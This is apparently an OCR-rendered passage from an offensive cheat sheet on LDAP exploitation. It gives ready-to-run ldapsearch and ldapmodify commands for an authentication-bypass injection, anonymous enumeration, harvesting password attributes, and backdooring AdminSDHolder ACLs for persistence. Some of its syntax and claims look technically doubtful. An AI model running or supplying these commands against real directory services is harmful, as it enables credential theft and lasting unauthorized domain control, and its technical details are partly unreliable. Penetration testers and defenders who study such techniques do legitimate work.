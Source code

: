 ## 5. LDAP Exploitation Techniques (Advanced)

#### 5.1 LDAP Injection for Bypassing Authentication
- **LDAP Injection Example**: This payload attempts to bypass authentication by injecting a crafted `cn=*` filter into the LDAP query, potentially allowing access to unintended objects.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -D "CN=admin)(|(cn=*))#" -w '<password>'
  ```

#### 5.2 Exploit LDAP Referrals
- **Enumerate LDAP Referrals**: Extracts information about LDAP referrals by searching for `namingContexts`, which can reveal linked domains or directory services.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" -s base "+" "namingContexts"
  ```

#### 5.3 Exploit LDAP Anonymously
- **Anonymous LDAP Bind**: Attempts an anonymous bind to the LDAP server, useful for checking if the server allows anonymous access and what information is accessible without authentication.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com"
  ```

#### 5.4 Extract Group Policy Information via LDAP
- **Enumerate GPOs**: Extracts Group Policy Objects (GPOs) by querying the `groupPolicyContainer` objectClass, revealing policies applied within the domain.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "CN=Policies,CN=System,DC=domain,DC=com" "(objectClass=groupPolicyContainer)"
  ```

#### 5.5 Harvest Passwords from LDAP
- **Search for Password Attributes**: This command searches for objects that contain password-related attributes (`userPassword` or `unicodePwd`), potentially exposing weakly protected or misconfigured accounts.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(|(userPassword=*)(unicodePwd=*))"
  ```

## 6. LDAP Persistence and Post-Exploitation (Advanced)

#### 6.1 Backdoor LDAP Accounts via Unauthorized Modifications
- **Modify LDAP ACLs**: This command adds a new `nTSecurityDescriptor` to the `AdminSDHolder` object, backdooring the account by modifying ACLs directly through LDAP.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=AdminSDHolder,CN=System,DC=domain,DC=com
  changetype: modify
  add: nTSecurityDescriptor
  nTSecurityDescriptor:: <encoded_acl>
  EOF
  ```
